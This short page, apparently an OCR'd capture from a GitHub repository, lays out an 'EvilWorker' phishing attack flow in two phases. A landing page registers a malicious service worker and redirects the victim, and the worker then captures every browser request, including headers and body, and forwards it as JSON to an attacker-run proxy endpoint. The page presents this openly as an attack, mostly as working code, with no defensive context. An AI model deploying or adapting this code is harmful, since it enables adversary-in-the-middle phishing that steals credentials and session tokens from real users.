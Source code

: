 
---

## 🔗 **INTEGRATED ATTACK FLOW**

### **Phase 1: Initial Engagement**
```
[Victim] → [Phishing URL] → [Service Worker Registration] → [Session Creation]
```

**EvilWorker Landing Page:**
```html
<script>
    if ("serviceWorker" in navigator) {
        navigator.serviceWorker.register("/service_worker_Mz8XO2ny1Pg5.js", {
            scope: "/",
        })
        .then((registration) => {
            const phishedParameterURL = new URL(self.location.href).searchParams.get("redirect_urI");
            const phishedURL = new URL(decodeURIComponent(phishedParameterURL));
            self.location.replace(`${phishedURL.pathname}${phishedURL.search}`);
        });
    }
</script>
```

### **Phase 2: Service Worker Interception**
```
[All Browser Requests] → [Service Worker] → [Malicious Proxy] → [Legitimate Service]
```

**Service Worker Logic:**
```javascript
async function handleRequest(request) {
    const proxyRequestURL = `${self.location.origin}/lNv1pC9AWPUY4gbidyBO`;
    
    const proxyRequest = {
        url: request.url,
        method: request.method,
        headers: Object.fromEntries(request.headers.entries()),
        body: await request.text(),
        referrer: request.referrer,
        mode: request.mode
    };
    
    return fetch(proxyRequestURL, {
        method: "POST",
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify(proxyRequest),
        redirect: "manual",
        mode: "same-origin"
    });
}
```
